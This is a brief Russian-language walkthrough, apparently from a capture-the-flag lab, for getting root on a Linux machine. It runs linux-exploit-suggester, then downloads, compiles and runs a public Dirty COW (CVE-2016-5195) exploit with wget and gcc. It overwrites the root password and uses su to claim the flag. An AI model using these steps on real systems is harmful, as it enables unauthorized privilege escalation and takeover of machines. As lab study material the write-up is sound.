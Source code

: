 С помощью linux-exploit-suggester (https://github.com/The-Z-Labs/linux-exploit-suggester) изучаем возможные CVE
Подходит и сработал CVE-2016-5195 dirtycow
wget https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
Вводим любой новый пароль
ctrl+c
su
Вводим новый пароль  который указали и забираем флаг
